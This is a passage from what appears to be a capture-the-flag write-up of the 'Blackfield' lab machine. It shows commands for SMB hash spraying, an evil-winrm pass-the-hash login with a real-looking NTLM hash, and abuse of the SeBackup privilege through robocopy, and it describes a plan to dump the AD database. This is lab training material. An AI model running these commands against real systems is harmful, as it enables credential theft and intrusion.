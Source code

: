 ![screenshot](/assets/images/blackfield10.png)

![screenshot](/assets/images/blackfield11.png)
### Hash Spray
```sh
nxc smb 10.10.10.192 -u usernames.txt -H hashes
```
## Foothold
```sh
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```


# Privilege Escalation
## Enumeration

We can abuse the SeBackup privilege in order to retrieve files from the Administrator Desktop using robocopy. Using robocopy, we are able to retrieve a notes.txt but are denied access on root.txt.

```powershell
robocopy /b C:\Users\Administrator\Desktop\ C:\
```

## Exploitation

### Dumping Hashes with WBAdmin
So we need to get into the Administrator context. On way to do this is to abuse SeBackup and SeRestore privileges in order to dump the AD database. 

Then, we can use the administrator NTLM hash in a PtH (Pass the Hash) attack to get a shell as them. 

First we need to install and configure a samba server with authentication.
